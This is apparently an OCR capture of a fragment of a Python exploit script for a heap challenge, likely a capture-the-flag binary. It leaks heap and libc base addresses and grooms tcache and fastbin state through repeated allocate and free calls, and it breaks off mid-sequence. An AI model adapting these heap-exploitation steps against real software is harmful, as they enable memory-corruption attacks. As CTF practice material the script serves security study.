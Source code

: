 ```python
		ru(' ')
	heap=0
	for i in range(6):
		ru(' ')
		tmp = int(p.recv(4)[2:],16)
		heap = heap | (tmp<<(i*8))
	log.info(hex(heap))
	
	
	for i in range(10):
		ru(' ')
	libcbase=0
	for i in range(6):
		ru(' ')
		tmp = int(p.recv(4)[2:],16)
		libcbase = libcbase | (tmp<<(i*8))
	libcbase -= 0x1ecbe0
	log.info(hex(libcbase))
	
	
	post(101, 0, 0, '2'*0x68)
	for i in range(10):
		post(101, 255, 0, '2'*0x68)
		
	
	for i in range(9):
		handle1()
	for i in range(10):
		handle0()
	#tcache:abbbbbb
  
	#fastbin:bbbb...
  
	#h0:
  
	#h1:a
		
	
	for i in range(6):
		post(101, 0, 0, '2'*0x68)
	post(101, 1, 0, '2'*0x68)
	post(101, 0, 0, '2'*0x68)
	post(101, 0, 0, '2'*0x68)
	#tcache:
  
	#fastbin:bbbb...
  
	#h0:bbbbbbbb
  
	#h1:aa
  
	
	for i in range(7):
		handle0()
	handle1()
	handle0()
	handle1()
	#tcache:bbbbbbb
  
	#fastbin:ababbbb...
  
	#h0:
  
```